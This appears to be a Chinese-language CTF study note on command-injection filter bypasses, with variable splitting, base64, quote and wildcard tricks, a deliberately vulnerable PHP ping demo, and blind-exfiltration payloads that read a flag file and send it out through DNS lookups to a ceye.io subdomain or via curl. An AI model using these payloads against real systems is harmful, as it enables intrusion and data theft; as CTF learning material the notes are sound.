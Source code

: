 **变量绕过**

a=l,b=s;$a$b

**base64编码绕过**

echo 'cat' | base64

**未定义的初始化变量**

cat$b /etc/passwd

**连接符**

cat /etc/pass’w’d

**使用通配符：**

如：

/???/?s --help
题目地址：http://moectf.cn:10012/

payload：/?cmd=eval($_GET[%27a%27]);&a=system(ls);

#### 无回显




1、使用延时函数，比如：ls|sleep 3 2、使用http,比如：ls|curl ip:port 3、使用dns

demo：

<?php
highlight_file(__FILE__);
include("where_flag.php");
echo "ping";
$ip = (string)$_GET['ping'];
$ip = str_replace(">", "0.0", $ip);
shell_exec("ping".$ip);
?>
思路1：使用cp命令将where_flag.php改名，然后下载得到flag

如：127.0.0.1;cp where_is_flag.php 1.txt

思路二：dnslog外带

因为dnslog不能带有空格，所以使用sed去空格

最后的payload：

/?ping=cat where_flag.php|sed s/[[:space:]]//.php.xxxx.ceye.io

因为ceye无法处理换行，所以我们可以使用下面的方法处理换行问题

ping=127.0.0.1 -c 1;for i in `cat where_is_flag.php`;do ping $i.xxx.ceye.io;done;
注意：只能在curl下有效

#### 长度绕过

如15位命令执行、7位命令执行、5位命令执行、4位命令执行
